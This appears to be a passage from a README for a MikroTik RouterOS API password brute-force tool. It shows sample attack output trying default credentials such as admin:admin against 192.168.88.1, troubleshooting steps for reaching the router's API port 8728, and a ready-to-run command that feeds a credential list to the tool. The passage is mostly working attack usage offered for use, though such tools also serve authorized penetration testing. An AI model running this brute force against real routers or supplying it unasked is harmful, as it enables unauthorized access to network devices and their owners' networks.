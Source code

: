 ```
Export         : JSON, CSV, XML, TXT
============================================================

[INFO] [10:30:15] [*] Starting brute force attack...
[INFO] [10:30:15] [*] Testing 15 credential combinations...

[TEST] [10:30:15] admin:****** ← Shows what's being tested!
[FAIL] [10:30:15] [API] admin:admin
[TEST] [10:30:16] admin:********
[FAIL] [10:30:16] [API] admin:password

============================================================
ATTACK STATISTICS
============================================================
Total Tested    : 15
Successful      : 0
Failed          : 15
Success Rate    : 0.0%
============================================================

## NO CREDENTIALS FOUND ##
============================================================
No valid credentials were discovered.
Total attempts: 15

⚠ Warning: 15 connection errors occurred ← Diagnosis!
Possible causes:
  - Target is unreachable or offline
  - Firewall blocking connections
  - Wrong port number
  - Target is not a Mikrotik device

Troubleshooting:
  1. Verify target is reachable: ping 192.168.88.1
  2. Check if API port is open: telnet 192.168.88.1 8728
  3. Try with verbose mode: -vv
============================================================
```

---

## 🚀 Test Now with the New Verbose

```powershell
# Execute directly with examples
python mikrotikapi-bf.py -t 192.168.88.1 -d examples\combos.txt --export-all -v

# Or use the example scripts
cd examples
.\example_basic.sh
```
